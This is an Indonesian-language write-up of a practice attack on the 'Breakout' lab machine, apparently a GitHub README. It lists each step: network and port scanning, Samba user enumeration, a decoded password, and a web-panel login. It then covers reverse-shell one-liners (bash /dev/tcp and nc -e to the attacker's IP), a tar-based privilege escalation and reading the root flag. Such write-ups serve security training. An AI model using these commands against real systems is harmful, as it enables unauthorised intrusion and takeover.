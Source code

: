 # Laporan Serangan Server Breakout
Ini adalah hasil serangan yang telah dilakukan pada server Breakout untuk latihan serangan.

## Pencarian IP Address Server

- cek ip pc : 
	- cara 1
		```
		ip a
		```
	- cara 2
		```
		ifconfig
		```

- scan jaringan
	- nmap 
		```
		nmap -sP <network_id>/<prefix>
		```
	- netdicover 
		```
		netdiscover -i <interface>
		```

- uji koneksi, kali linux dan server Breakout
	```
	ping <ip_server>
	```

## Scan Port Server dengan NMAP
- nmap : 
	```
	nmap -p- -A -T4 <ip_server>
	```

**Port** yang terbuka dari server adalah :
- http (80)
- samba (139)
- samba (445)
- http miniserv (1000)
- http miniserv (2000)

## Access HTTP MINISERV Port 1000 & 2000
- gunakan url browser
	- http (1000)
		```
		http://<ip_server>:1000
		```
	- http (2000)
		```
		http://<ip_server>:2000
		```

**Note :** jika dialihkan menggunakan **https** maka ikuti


## Access Samba 
- coba login dengan password blank
	```
	smbclient -L //<ip_server>
	```
- jika gagal, proses pencarian celah lainnya


## Access Username pada Samba (139) dan (445)
- enum
	```
	enum4linux -a <ip_server>
	```
- scroll kebawah temukan user dengan (local user)
- maka username : **cyber**
- buka port http (80)
- buka full source code web
- paling bawah terdapat pesan enkripsi
- decrypt:
	```
	https://www.dcode.fr/brainfuck-language
	```
- password : **.2uqPEfj3D< P'a-3**
- login pada port 2000
- klik menu shell (terminal)
- buka terminal listener : 
	```
	nc -lvnp 2020
	```
- reverse shells
	- bash 
		```
		bash -i >& /dev/tcp/<ip_kali>/2020 0>&1
		```
	- netcat
		```
		nc -e /bin/bash <ip_kali> 2020
		```
- mode terminal
	```
	python3 -c 'import pty; pty.spawn("/bin/bash")'
	```
	```
	export TERM=xterm
	```

## Local Privilege Escalation
- waktu proses pencarian, terdapat file : **.old_pass.bak**
- pada folder **/var/backups**
- access file
	```
	./tar -cf mypass.tar /var/backups/.old_pass.bak
	./tar -xf mypass.tar
	cat var/backups/.old_pass.bak
	su root

	```
- gunakan password yang sudah ditampilkan
- temukan flag
	```
	cat /root/rOOt.txt
	```